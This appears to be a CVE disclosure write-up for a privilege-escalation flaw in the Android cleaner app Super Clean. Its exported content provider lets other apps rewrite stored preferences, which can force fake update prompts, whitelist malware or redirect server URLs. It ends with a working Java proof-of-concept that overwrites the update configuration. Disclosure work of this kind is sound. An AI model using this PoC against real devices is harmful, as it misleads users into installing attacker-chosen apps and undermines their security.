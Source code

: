 ## Escalation of Privileges exists in Super Clean（CVE-2023-27651）

Vendor：Ego Studio(http://www.egostudiogroup.com/)

Affected product：Super Clean(com.egostudio.clean) 

Version：1.1.5 1.1.9

Download link：https://apkpure.com/cn/super-clean-phone-cleaner/com.egostudio.clean/download

Description of the vulnerability for use in the CVE：An issue found in Ego Studio SuperClean v.1.1.9 and v.1.1.5 allows an attacker to gain privileges via the update_info field of the _default_.xml file.

Additional information：Super Clean is a phone cleaner app for cleaning junk files and optimizing memory usage, it also provides various security-related features such as Wifi security check, app lock, etc. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Super Clean app will not behave properly when loading this data. 

​		The attackers can use the update() method in the SharedPrefProvider component exposed by the APP to modify the contents of the SharedPreference file of the APP. The file '__default__.xml' contains a key-value pair named key_self_update_config which records data related to APP updates. By changing the ‘appver’ and ‘type’ fields in the value, the attackers can force the app to trigger the update function. They can then hijack the hint message shown to the user in the update UI by modifying the ‘update_info‘ field to mislead the user. Finally, by modifying the ’packageName‘ field, they can arbitrarily specify the link to which the update button points. (Note that packageName can only be the name of the application package listed in Google Play Market.) This can result in users being induced to download the app specified by the attacker in the application market.

​		Attackers can use similar methods to cause a variety of security hazards. For example, they can allow malicious apps to add themselves to the virus check whitelist (by modifying the KEY_VIRUS_SCAN_WHITELIST field), force the app to initialize all settings (by modifying the key_init_app_finish field), block ads (by modifying the key_ad_new_user_avoid_time field, which affects the developer's advertising revenue), or control the server URL that the victim app is going to access (by modifying the key_wifi_safe_net_check_url field).To make matters worse, users cannot fix the security issues by simply restarting the app, since the injected data is persistent in the SharedPreference files.

poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.egostudio.clean.boost.main.SharedPrefProvider");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put("file_name","__default__");
        contentValues.put("type",4);
        contentValues.put("key","key_self_update_config");
        contentValues.put("value","{\"channel\":\"clean\",\"country\":[\"全部\"],\"appver\":1000,\"enable\":true,\"force_update\":true,\"type\":1002,\"packageName\":\"com.wuxiafield.novastar\",\"jumpurl\":\"https:\\/\\/play.google.com\\/store\\/apps\\/details?id=com.wuxiafield.novastar\",\"interval_time\":6,\"update_info\":[\"hshadhashdsahdhsadhashdhasdhsahdas\"]}");
        contentResolver.update(uri,contentValues,null,null);
    }
}
```



